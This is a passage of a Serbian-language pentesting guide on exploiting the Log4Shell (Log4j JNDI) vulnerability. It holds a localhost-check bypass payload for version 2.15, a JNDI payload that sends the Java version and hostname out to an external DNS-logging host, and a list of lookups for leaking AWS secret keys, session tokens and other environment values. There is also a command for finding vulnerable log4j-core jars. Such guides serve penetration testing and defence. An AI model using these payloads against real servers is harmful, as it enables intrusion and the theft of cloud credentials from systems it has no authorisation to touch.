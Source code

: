 Napomena da **čak i ako se primi DNS zahtev, to ne znači da je aplikacija iskorišćiva** (ili čak ranjiva), moraćete pokušati da je iskoristite.

{% hint style="info" %}
Zapamtite da za **eksploataciju verzije 2.15** morate dodati **bajpas provere lokalnog računara**: ${jndi:ldap://**127.0.0.1#**...}
{% endhint %}

#### **Lokalno otkriće**

Pretražite **lokalne ranjive verzije** biblioteke sa:

```bash
find / -name "log4j-core*.jar" 2>/dev/null | grep -E "log4j\-core\-(1\.[^0]|2\.[0-9][^0-9]|2\.1[0-6])"
```

### **Verifikacija**

Neke od platformi navedenih ranije će vam omogućiti da unesete određene varijabilne podatke koji će biti zabeleženi kada se zatraže.\
Ovo može biti veoma korisno za 2 stvari:

* Za **verifikaciju** ranjivosti
* Za **ekstrakciju informacija** zloupotrebom ranjivosti

Na primer, možete zatražiti nešto poput:\
ili poput `${`**`jndi:ldap://jv-${sys:java.version}-hn-${hostName}.ei4frk.dnslog.cn/a}`** i ako se **primi DNS zahtev sa vrednošću env promenljive**, znate da je aplikacija ranjiva.

Druge informacije koje biste mogli pokušati **procuriti**:

```
${env:AWS_ACCESS_KEY_ID}
${env:AWS_CONFIG_FILE}
${env:AWS_PROFILE}
${env:AWS_SECRET_ACCESS_KEY}
${env:AWS_SESSION_TOKEN}
${env:AWS_SHARED_CREDENTIALS_FILE}
${env:AWS_WEB_IDENTITY_TOKEN_FILE}
${env:HOSTNAME}
${env:JAVA_VERSION}
${env:PATH}
${env:USER}
${hostName}
${java.vendor}
${java:os}
${java:version}
${log4j:configParentLocation}
${sys:PROJECT_HOME}
${sys:file.separator}
${sys:java.class.path}
${sys:java.class.path}
${sys:java.class.version}
${sys:java.compiler}
${sys:java.ext.dirs}
${sys:java.home}
${sys:java.io.tmpdir}
${sys:java.library.path}
${sys:java.specification.name}
${sys:java.specification.vendor}
${sys:java.specification.version}
${sys:java.vendor.url}
${sys:java.vendor}
${sys:java.version}
${sys:java.vm.name}
${sys:java.vm.specification.name}
${sys:java.vm.specification.vendor}
```